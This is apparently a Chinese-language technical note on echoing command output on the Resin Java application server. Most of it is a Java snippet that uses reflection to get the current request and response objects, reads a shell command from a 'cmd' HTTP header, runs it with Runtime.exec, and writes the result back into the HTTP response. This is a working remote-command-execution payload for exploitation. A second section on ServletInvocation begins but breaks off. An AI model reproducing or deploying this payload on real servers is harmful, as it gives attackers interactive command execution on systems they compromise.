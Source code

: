 

回显思路

- 通过调用TcpSocketLink.getCurrentRequest()获取ProtocolConnection对象（实际HttpRequest）
- 通过调用其父类(AbstractHttpRequest)的getResponseFacade方法获取response对象
- 通过反射调用reponse对象的getWriter方法获取PrintWriter对象
- 通过PrintWriter对象的write方法写入回显内容



代码实现

```java
// 获取TcpSocketLink Class对象
Class tcpSocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");
// 通过反射调用getCurrentRequest方法 
Method getCurrentRequestM = tcpSocketLinkClazz.getMethod("getCurrentRequest");
Object currentRequest = getCurrentRequestM.invoke(null);
// 从父类(AbstractHttpRequest)中获取_responseFacade字段
Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");
f.setAccessible(true);
// 获取response对象
Object response = f.get(currentRequest);
// 获取getWriter方法
Method getWriterM = response.getClass().getMethod("getWriter");
// 调用getWriter获取Writer对象
Writer writer = (Writer)getWriterM.invoke(response);
// 获取getHeader方法
Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
// 调用getHeader获取到通过需执行的命令：cmd
String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
// 执行命令
Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmd).getInputStream())).useDelimiter("\\A");
// 写入命令执行结果并回显
writer.write(scanner.hasNext() ? scanner.next() : "");
```

##### 基于 ServletInvocation

- com.caucho.server.dispatch.ServletInvocation#getContextRequest

  - 获取ContextRequest对象

  ![image-20220105164537318](resinEcho.assets/image-20220105164537318.png)
